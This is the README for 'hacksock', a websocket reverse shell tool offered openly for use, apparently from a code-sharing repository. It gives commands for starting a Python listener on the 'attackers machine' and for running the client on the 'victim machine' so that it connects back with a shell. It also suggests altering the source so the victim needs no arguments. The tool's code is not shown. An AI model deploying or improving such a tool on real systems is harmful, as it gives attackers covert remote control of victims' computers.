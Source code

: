 ```
  _                _                   _        _ 
 | |              | |                 | |      | |
 | |__   __ _  ___| | _____  ___   ___| | _____| |_ 
 | '_ \ / _` |/ __| |/ / __|/ _ \ / __| |/ / _ \ __|
 | | | | (_| | (__|   <\__ \ (_) | (__|   <  __/ |_ 
 |_| |_|\__,_|\___|_|\_\___/\___/ \___|_|\_\___|\__|
```

A websocket based reverse shell tool for the less security minded.

# To use:

On the attackers machine use the python server

`python3 hacksock-srv.py --host [Listening IP] --port [Listening Port]`

On the victim machine, either alter the source so no arguments are required or run the below:

`hacksock.exe [attackers IP] [port]`

# Bugs:

- Code was written in a field therefore full of bugs
- The server accepts multiple connections however there is no way to switch at present. Functionality coming soon.
- Feel free to use and improve. #fixmycode
